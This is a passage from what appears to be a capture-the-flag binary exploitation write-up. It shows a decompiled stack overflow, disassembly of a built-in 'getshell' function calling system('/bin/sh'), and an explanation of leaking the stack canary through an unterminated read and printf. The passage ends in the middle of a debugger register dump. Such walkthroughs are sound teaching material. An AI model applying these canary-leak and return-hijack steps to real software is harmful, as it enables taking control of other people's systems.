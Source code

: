 ```C
  printf("Hello %s:\n", buf, *(_QWORD *)buf, *(_QWORD *)&buf[8], *(_QWORD *)&buf[16], *(_QWORD *)&buf[24]);

  read(0, buf, 0x60uLL);                        // overflow

  return 0LL;

}

```



Also found that the program gives a function that can directly get the shell
`` `asm
.text:0000000000000A3E getshell        proc near

.text:0000000000000A3E ; __unwind { .text:0000000000000A3E                 push    rbp

.text:0000000000000A3F                 mov     rbp, rsp

.text:0000000000000A42                 lea     rdi, command    ; "/bin/sh"

.text:0000000000000A49                 call    _system

.text:0000000000000A4E                 nop

.text:0000000000000A4F                 pop     rbp

.text: 0000000000000A50 retn
.text:0000000000000A50 ; } // starts at A3E

.text:0000000000000A50 getshell        endp

```

So we just have to control rip to this function.


#### leak canary

There is an output immediately after the first read, and read does not add \0 to the end of the input, which gives us the opportunity to leak the contents of the stack.


In order to control the return address for the second overflow, we choose leak canary. It can be calculated that the length of the first read is 0x30 - 0x8 + 1 (+ 1 is to cover the value of the lowest bit of canary is non-zero, printf uses % s, when the end of \0 is encountered, when the canary low is over non-zero, canary can be printed by printf)


`` `asm
Breakpoint 1, 0x0000557c8443aa08 in ?? ()

LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA

──────────────────────────────────────────────────[ REGISTERS ]──────────────────────────────────────────────────

 RAX  0x0

 RBX  0x0

 RCX  0x7f1898a64690 (__read_nocancel+7) ◂— cmp    rax, -0xfff

 RDX  0x30

 RDI  0x557c8443ab15 ◂— insb   byte ptr [rdi], dx /* 'Hello %s:\n' */
```